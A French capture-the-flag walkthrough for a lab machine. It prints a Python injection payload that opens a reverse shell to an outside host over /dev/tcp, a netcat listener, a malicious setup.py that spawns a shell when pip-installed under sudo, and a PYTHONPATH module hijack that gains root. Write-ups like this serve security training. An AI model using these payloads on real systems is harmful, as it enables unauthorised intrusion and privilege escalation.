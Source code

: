 # Years 5739 CTF Walkthrough

## Sommaire

1. [RCE via Injection Python](#1-rce-via-injection-python)
2. [Reverse Shell avec Netcat](#2-reverse-shell-avec-netcat)
3. [Installation du setup.py](#3-installation-du-setuppy)
4. [Élévation avec backup.py](#4-élévation-avec-backuppy)

---

## 1. RCE via Injection Python

Sur le site web : `http://10.10.132.89:8080/index`, on identifie une vulnérabilité d'injection Python.

Payload utilisé :

```python
__import__('subprocess').Popen(['bash', '-i', '-c', 'exec 5<>/dev/tcp/10.8.92.59/4444; cat <&5 | while read line; do $line 2>&5 >&5; done'], shell=False)
```

Ce payload ouvre une connexion TCP inversée vers notre machine.

## 2. Reverse Shell avec Netcat

Sur notre machine d’attaque, on écoute le port 4444 :

```bash
nc -lvnp 4444
```

Dès que la commande d’injection est exécutée, on obtient un shell distant.

🎉 **1er Flag obtenu**

## 3. Installation du setup.py

Depuis le shell obtenu, on se connecte à un serveur Python (sur notre machine) et on télécharge un fichier `setup.py`.

```python
from setuptools import setup
import os

os.system("/bin/bash")

setup(
    name="evil_module",
    version="0.1",
    install_requires=[]
)
```

On installe ensuite le package comme l’utilisateur `cave-of-miracles` :

```bash
sudo -u cave-of-miracles pip3 install . -v
```

Cela nous donne un accès shell avec l’utilisateur `cave-of-miracles`.

🎉 **2ème Flag obtenu**

## 4. Élévation avec backup.py

On vérifie les commandes sudo disponibles :

```bash
sudo -l
```

Résultat : on peut exécuter `/opt/backup.py` en tant que root et contrôler l’environnement Python.

On modifie un des modules importés par `backup.py`, par exemple en créant un faux module dans `/tmp` :

```python
# /tmp/fakemodule.py
import os
os.system("/bin/bash")
```

Puis on exécute :

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py
```

Ce qui déclenche notre shell — cette fois avec les **droits root** !

---

🎉 **3ème Flag obtenu**
